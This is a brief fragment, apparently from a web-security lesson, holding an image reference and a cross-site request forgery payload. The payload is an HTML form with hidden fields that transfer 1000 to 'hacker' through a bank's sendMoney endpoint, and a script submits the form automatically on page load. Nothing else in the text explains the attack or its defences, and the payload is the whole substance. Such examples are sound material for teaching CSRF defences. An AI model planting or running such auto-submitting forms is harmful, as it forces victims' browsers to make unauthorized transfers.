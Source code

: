 <form name="csrfForm" action="http://www.secureBank.ie/sendMoney" method="POST">
 <input type="hidden" name="giveMoneyTo" value="hacker" />
 <input type="hidden" name="giveAmount" value="1000" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>
